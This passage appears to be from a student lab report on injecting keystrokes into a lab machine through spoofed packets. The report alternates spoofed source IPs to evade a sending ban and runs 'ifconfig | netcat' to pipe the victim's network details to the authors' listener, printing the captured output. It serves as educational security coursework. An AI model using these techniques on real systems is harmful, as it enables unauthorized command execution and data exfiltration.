 \documentclass{article}
\begin{document}
The ID \& acknowledge sequence values were left out because they weren't needed explicitly and tgn would fill in default values automatically. After experimenting with this functionality, we discovered that IPs would be banned from sending for 120 seconds if they sent more than 10 consecutive packets to the computer.

\section*{Running ifconfig and transferring data to our computer}
First, we set up netcat to listen on port 1024 on our computer using the command:

\begin{verbatim}
netcat -l 1024
\end{verbatim}

The command we would have to execute on the other computer was:

\begin{verbatim}
ifconfig | netcat 192.168.67.31 1024
\end{verbatim}

Then, using the capabilities explored in the previous section, we looked up the decimal values of the ASCII characters of the command, and wrote bash script that executed the command for each character, and added a carriage return in the end to execute the command. In order to avoid being banned by Jerry's computer, the destination IPs, and therefore the spoofed source IPs were alternated for each line. (see the file netcat\_ifconfig.sh in the directory workfiles/Ex3)

\newpage
After running the script we saw the ifconfig information of Jerry's computer appear on our Terminal:

\begin{verbatim}
eth0      Link encap:Ethernet  HWaddr 94:de:80:6f:2e:55  
          inet addr:192.168.67.26  Bcast:192.168.67.255  Mask:255.255.255.0
          inet6 addr: fe80::96de:80ff:fe6f:2e55/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:449738 errors:0 dropped:0 overruns:0 frame:0
          TX packets:301135 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:97545566 (97.5 MB)  TX bytes:39258922 (39.2 MB)
          Interrupt:20 Memory:f3300000-f3320000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:748 errors:0 dropped:0 overruns:0 frame:0
          TX packets:748 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:49180 (49.1 KB)  TX bytes:49180 (49.1 KB)

p3p1      Link encap:Ethernet  HWaddr 94:de:80:6f:2e:45  
          UP BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
          Interrupt:19 
\end{verbatim}
\end{document}
